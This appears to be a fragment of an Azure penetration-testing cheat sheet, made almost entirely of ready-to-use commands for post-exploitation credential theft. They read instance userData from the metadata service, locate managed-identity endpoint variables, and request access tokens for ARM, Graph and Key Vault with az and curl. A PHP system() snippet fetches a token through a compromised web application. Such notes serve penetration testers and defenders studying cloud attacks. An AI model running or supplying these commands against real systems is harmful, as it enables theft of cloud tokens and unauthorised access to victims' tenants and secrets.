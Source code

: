 #### Check UserData
```
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text";[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```

#### Check if server has a managed identity
- print environment variables and check for `IDENTITY_HEADER` and `IDENTITY_ENDPOINT` variables exist.
```
env
Get-ChildItem Env:
```

#### Get access token
Supported tokens = aad-graph, arm, batch, data-lake, media, ms-graph, oss-rdbms
```
az account get-access-token
az account get-access-token --resource-type ms-graph 
```

#### Curl
- ARM
```
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

- Azure AD Graph
```
curl "$IDENTITY_ENDPOINT?resource=https://graph.windows.net/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

- Microsoft Graph
```
curl "$IDENTITY_ENDPOINT?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

- Keyvault
```
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

### PHP
- ARM
```
<?php
  system ('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```
